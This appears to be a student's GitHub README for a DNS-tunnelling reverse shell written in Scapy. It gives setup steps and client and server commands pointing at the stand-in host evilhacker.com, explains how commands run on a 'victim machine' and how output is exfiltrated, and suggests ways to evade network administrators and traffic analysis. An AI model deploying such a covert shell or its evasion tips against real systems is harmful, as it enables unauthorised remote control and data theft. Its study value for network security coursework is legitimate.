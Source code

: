 # Reverse Shell using DNS tunnelling

Written in Scapy for my network security module :)

## Usage

Make sure to run the server first.

### Server

1. Purchase a domain (for example, `evilhacker.com`)
2. Set an `A` record for `*.evilhacker.com` and point to server IP address
3. Set an `NS` record for `ns1.evilhacker.com` and point to `ns1.evilhacker.com`

```sh
$ ./dns_server.py -h
usage: dns_server.py [-h] [-i INTERFACE] [-p IP] domain

DNS Reverse Shell Server

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -p IP, --ip IP        Public IP of server

# ./dns_server.py evilhacker.com
```

Program will now listen on stdin for commands

---

### Client

```sh
$ ./dns_client.py -h
usage: dns_client.py [-h] [-i INTERFACE] [-I INTERVAL] [-p PULSE] [-t TIMEOUT] domain

DNS Reverse Shell Client

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -I INTERVAL, --interval INTERVAL
                        Interval between sending DNS packets
  -p PULSE, --pulse PULSE
                        How often to pulse the server in seconds (Lower number means faster response time)
  -t TIMEOUT, --timeout TIMEOUT
                        How long it takes to recover from lost packet in seconds (Lower number means faster recover time)

# ./dns_client.py evilhacker.com
```

## How it works

Every few seconds, the client program sends a DNS A record query “pulse.evilhacker.com” and listens for any commands that the server gives. When a shell command is received, the subdomain is base64 decoded and runs on the victim machine. The standard output or error is then encoded in base64 and fragmented into multiple parts as there is a maximum length for the domain. The fragmented data is then sent, with the “z” flag in the DNS packet used to indicate the last packet from the command output.

The server program sniffs and filters out only DNS traffic on the indicated network interface. It captures the DNS queries from the server, strips out the subdomain, reconstructs the fragmented base64 data and prints it to terminal output. Similar to the client program, any command that is longer than the maximum length allowed for the domain is fragmented with the “z” flag used to indicate the last packet from the command.

However, there are certain caveats to this program. Due to the nature of UDP, it is possible that some data can be lost in the middle of a transaction. This is very apparent when dealing with slow networks. An increased interval between each packet sent (more information in the program usage) can boost the reliability and covertness of the reverse shell.

### Improvements

Although the data is encoded with base64, a network administrator can easily reconstruct and decode the packet. Encrypting data with a shared AES-256 key can prevent network administrators or automated network traffic analysis tools from deciphering the content while minimising network traffic overhead.

Randomising the types of DNS queries with A, MX, TXT and CNAME records can also improve the covertness of the exfiltration process.

Randomising the subdomain length can also be used to throw off automated network traffic analysis tools as it may be filtering for subdomains within a certain length at the cost of network traffic overhead.

Randomising the pulse and intervals between each packet sent can prevent network administrators or automated network traffic analysis tools from detection and correlation between packets. However, this significantly reduces the responsiveness of the reverse shell.
